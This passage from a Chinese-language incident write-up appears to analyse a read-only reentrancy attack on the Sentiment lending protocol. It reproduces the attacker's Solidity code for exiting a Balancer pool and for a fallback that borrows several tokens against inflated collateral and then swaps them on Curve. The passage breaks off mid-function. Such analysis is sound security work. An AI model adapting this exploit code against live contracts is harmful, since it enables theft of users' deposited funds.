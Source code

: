 

### step3：攻击者到Balancer的`pair(B-33WETH-33WBTC-33USDC)`取款，取走所有。（`ETH`触发了fallback，从而引发了重入攻击。）


```solidity
    function exitPool() internal{

        bytes32 poolId = B_33WETH_33WBTC_33USDC_POOL.getPoolId();
        address sender = address(this);
        address recipient = address(this);
        address[] memory assets = new address[](3);
        assets[0] = address(WBTC);
        assets[1] = address(0);//
        assets[2] = address(USDC_e);
        uint[] memory minAmountsOut = new uint[](3);
        minAmountsOut[0] = 606e8;
        minAmountsOut[1] = 5_000e18;//
        minAmountsOut[2] = 9_000_000e6;

        uint tokenIn =balancerPoolToken.balanceOf(address(this));//
        bytes memory userData = abi.encode(uint8(1), tokenIn);//
        BalancerVault.ExitPoolRequest memory request = BalancerVault.ExitPoolRequest({
            assets:assets,
            minAmountsOut:minAmountsOut,
            userData:userData,
            toInternalBalance:false
        });

        balanceVault.exitPool(poolId, sender, payable(recipient), request);

        WETH.deposit{value: address(this).balance}();

    }
```



### step4：`fallback`
在`fallback`中，张三向Sentiment发起了借款，记得 step2的50个WETH的存款吗，此时有了LP Token，作为抵押物就可以借款。具体如下：
* step4.1：借贷 461,00个USDC_e，361,00个USDT，81个WETH，125,000个FRAX。，再去Curve把FRAX换成USDC_e。
* step4.2：通过Sentiment将step4.1 借到的钱，都借给AaveV3。
* step4.3：将step4.2 借给AaveV3的钱，取出来给攻击人自己。


```solidity
    fallback() external payable {
        console.log("fallback");
        emit log_named_decimal_uint("fallback eth" , msg.value, 18);
        if(count > 1){
            accountManagerBorrow();
        }
        count++;
    }
    function accountManagerBorrow() public{

        accountManager.borrow(address(accountAddress), address(USDC_e), 461_000 * 1e6);
        accountManager.borrow(address(accountAddress), address(USDT), 361_000 * 1e6);
        accountManager.borrow(address(accountAddress), address(WETH), 81e18);
        accountManager.borrow(address(accountAddress), address(FRAX), 125_000 * 1e18);

        accountManager.approve(address(accountAddress),address(FRAX), CurvePool_FRAXBP, type(uint).max);
        accountManager.exec(address(accountAddress), CurvePool_FRAXBP, 0, abi.encodeWithSignature("exchange(int128,int128,uint256,uint256)", 0, 1, 120_000 * 1e18, 1));//exchange 稳定币
```